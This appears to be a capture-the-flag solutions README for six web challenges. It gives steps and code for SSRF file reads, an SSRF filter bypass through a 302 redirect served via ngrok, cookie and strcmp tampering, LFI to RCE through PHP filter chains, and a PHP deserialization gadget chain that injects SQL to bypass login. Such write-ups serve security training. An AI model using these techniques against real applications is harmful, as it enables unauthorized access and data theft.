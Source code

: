 # Brief Solution

## web01

## web02
### Installation 🧑🏻‍💻
1. `composer require mpdf/mpdf`

### Step 🍿
Basically, this is just SSRF vulnerability. You can read any file by using `file://` protocol. Sure you can use other method, feel free to study new thing.
1. put this URL on searchbar `file:///var/www/html/flag.php`

## web03
1. Base 64 decode 2 times the cookie value.
2. Change the type to admin and encode again.
3. Exploit the type strcmp loose comparison  by changing password to password[] and get the flag.
## web04
1. user click on About and redirected to page.php?show=about.php
2. show parameter is vulnerable to local file inclusion
3. gain rce via [PHP filters](https://github.com/synacktiv/php_filter_chain_generator)
## web05
### Installation 🧑🏻‍💻
1. `docker compose -d up`

### Step 🍿
This vulnerability is just the same as web02, but with little bit of filter. This system "generally" check given url:
- is an ip address
- does not request localhost directly
- has valid public url
- and does not have DNS rebinding attack (donno if my filter method works)
So basically we can bypass the filter using URL redirect(302). The idea is we will give valid and public domain, but the domain will redirect it back to localhost 😯.

***There are 3 methods you can use***
1. You can use URL shorterner and points it to `http://127.0.0.1:8081/flag` (only certains works)
2. You can use public domain for localhost testing `http://localtest.me:8081/flag`
3. Or more painfull but it good to understand how it works. 
  - Code below will redirect to `http://127.0.0.1:8081/flag`
```py
from flask import Flask,redirect

app = Flask(__name__)

@app.route("/")
def hello():
	return redirect("http://127.0.0.1:8081/flag")
```
  - spawn python server: `flask run --host=0.0.0.0 --port=1111`
  - spawn ngrok: `ngrok http 1111`
  - paste the url such as https://2025-2001-f40-933-46f6-ac06-5fb6-3208-9d5c.ap.ngrok.io/

## web06

The system passed user's input to `unserialize()` function without sanitization. User can control deserialize method to modify variable in classes to bypass login authentication. Thus, participant needs to create gadget chain( `ManageCookie{}`, `Auth{}`, `DBController{}` ) to control SQL statement in order to bypass auth.
### Step 🍿
1. run the code below.
```php
<?php

class DBController { }

class Auth {
    public $getTokenByUsernameQuery;
    protected $db_handle;

    function __construct() {
        $current_time = time();
        $cookie_expiration_time = $current_time + (30 * 24 * 60 * 60); // for 1 month
        $expiry_date = date("Y-m-d H:i:s", $cookie_expiration_time);

        $password_hash = password_hash("takKisahApaPun", PASSWORD_DEFAULT);
        $selector_hash = password_hash("tulatu", PASSWORD_DEFAULT);

        $this->getTokenByUsernameQuery = "SELECT ? as username, ? as is_expired, '{$password_hash}' as password_hash, '{$selector_hash}' as selector_hash, '{$expiry_date}' as expiry_date, 12 as id";
        $this->db_handle = new DBController();
    }
}

class ManageCookie {
    public $member_login = "ADMIN";
    public $random_password = "takKisahApaPun";
    public $random_selector = "tulatu";
    protected $auth;

    function __construct() {
        $this->auth = new Auth();
    }
}

$p = new ManageCookie();
$p = urlencode(base64_encode(serialize($p)));
echo $p;
```
2. Set "remember_user" cookie and refresh.
